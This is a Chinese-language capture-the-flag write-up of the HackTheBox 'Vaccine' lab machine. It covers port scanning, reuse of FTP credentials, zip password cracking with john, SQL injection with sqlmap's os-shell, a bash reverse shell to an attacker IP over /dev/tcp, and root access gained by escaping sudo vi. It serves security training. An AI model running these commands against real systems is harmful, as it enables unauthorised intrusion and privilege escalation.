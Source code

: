 ```yaml
---
title: HackTheBox-Vaccine
date: 2021-07-13 17:05:21
categories:
- 渗透测试
tags:
- HackTheBox
---
```


## 实验环境

![Screenshot_2021-08-04_09_35_14](https://i.loli.net/2021/08/04/U3xgdw1fhKWpVOr.png)

## 信息收集

**端口扫描：**

```
nmap -sC -sV 10.10.10.46
```

![Screenshot_2021-08-02_11_35_34](https://i.loli.net/2021/08/04/cSyZNgzVdBa5Ff7.png)

看到21、22、80端口开放，先访问80端口，是一个登录界面，目前我们没有登录的账号密码

![Screenshot_2021-08-02_11_38_54](https://i.loli.net/2021/08/04/N5EBSjFbAIY6vWH.png)

因为上一题中我们得到了一个ftp的账户密码，先试试能不能ftp登录

```
ftpuser/mc@F1l3ZilL4
```

![Screenshot_2021-08-02_11_40_03](https://i.loli.net/2021/08/04/AhkG7aVn2xTKqis.png)

直接输入上一题中获得的用户名和密码可以成功登录

![Screenshot_2021-08-02_11_40_34](https://i.loli.net/2021/08/04/tSLqMYIKn7vD8U6.png)

可以看到有一个备份文件，我们先下载下来，但是这个文件需要解压密码

![Screenshot_2021-08-02_11_40_55](https://i.loli.net/2021/08/04/LosvlPx8rnfRt14.png)

我们直接使用john来爆破

```
zip2john backup.zip > hash
john hash
#因为我已经爆破过一次，所以可以直接show输出
john hash --show
```

![Screenshot_2021-08-02_11_47_56](https://i.loli.net/2021/08/04/Hwrq7FKaskilPIb.png)

得到压缩包密码`7418529630`，解压后有`index.php`，从代码中可以看到用户名和md5加密的密码

![Screenshot_2021-08-02_11_48_29](https://i.loli.net/2021/08/04/iyYwxIrSdV7XqMZ.png)

将md5加密的密码到在线的md5解密网站解密，得到密码为`qwerty789`

![Screenshot_2021-08-02_11_49_39](https://i.loli.net/2021/08/04/UFo8ZqT6aGQAnXx.png)

回到80端口的登录界面，用获得的用户名和密码登录，登录后的页面如下

![Screenshot_2021-08-02_14_15_39](https://i.loli.net/2021/08/04/EAakCZPVnoef5Xy.png)

## 实验过程

试试搜索处有没有常见漏洞，加单引号报错，应该是有sql注入

![Screenshot_2021-08-02_14_15_53](https://i.loli.net/2021/08/04/jg25tFavkQpoWOK.png)

那就直接用sqlmap跑，注意cookie要改成自己的值

```
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a --cookie="PHPSESSID=1ah5j9312pm8sf4sktan1gdll1"
```

![Screenshot_2021-08-03_09_22_43](https://i.loli.net/2021/08/04/jUadD1cT6WE5rbF.png)

![Screenshot_2021-08-03_09_26_33](https://i.loli.net/2021/08/04/DI6yXtBQwH3mWh7.png)

可以看到确实存在sql注入，数据库为PostgreSQL，试试直接用os-shell获取shell

```
sqlmap -u 'http://10.10.10.46/dashboard.php?search=a --cookie="PHPSESSID=1ah5j9312pm8sf4sktan1gdll1" --os-shell
```

![Screenshot_2021-08-03_09_27_03](https://i.loli.net/2021/08/04/oZdn7klxfEm3GFS.png)

接下来反弹shell，开启一个监听端口

![Screenshot_2021-08-03_09_27_50](https://i.loli.net/2021/08/04/5f4KBE9dTXrsLCM.png)

在sqlmap的shell中输入

```
bash -c 'bash -i >& /dev/tcp/10.10.15.60/1234 0>&1'
```

![Screenshot_2021-08-03_09_28_01](https://i.loli.net/2021/08/04/unHZq8YvKEdWI9A.png)

成功接收到反弹的shell

![Screenshot_2021-08-03_09_28_19](https://i.loli.net/2021/08/04/bLkCnr7FzU91yIQ.png)

![Screenshot_2021-08-03_09_29_41](https://i.loli.net/2021/08/04/HlFhMeK94sSOwQY.png)

先看一下存在注入的页面，有没有更多可以利用的信息，发现有数据库连接的用户名和密码

![Screenshot_2021-08-03_09_31_35](https://i.loli.net/2021/08/04/HMa2TXgmqjdvEc6.png)

接下来先得到交互式的shell

```
#看别的walkthrough说是两个都可以，但是我用第一个不行
SHELL=/bin/bash script -q /dev/null
python3 -c "import pty;pty.spawn('/bin/bash')"
```

得到交互式的shell后，可以通过`sudo -l`命令查看当前用户的权限，用户被允许编辑配置文件`/etc/postgresql/11/main/pg_hba.conf`，可以利用`vi`并验证密码提权至`root`

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![Screenshot_2021-08-03_09_33_34](https://i.loli.net/2021/08/04/4LZdbeGSapqOo3N.png)

![Screenshot_2021-08-03_09_34_36](https://i.loli.net/2021/08/04/W3egOjsi6xoAfYa.png)

输入密码验证后，会出现字符重叠，直接执行如下命令并回车即可获得`root`权限

```
:!/bin/bash
```

![Screenshot_2021-08-03_09_35_30](https://i.loli.net/2021/08/04/lRPNKFJmw2753eE.png)

最后就可以读取root的flag了

![Screenshot_2021-08-03_09_36_08](https://i.loli.net/2021/08/04/8PUE5M2Z7yuw4eH.png)



> 参考：
>
> https://www.echocipher.life/index.php/archives/891/

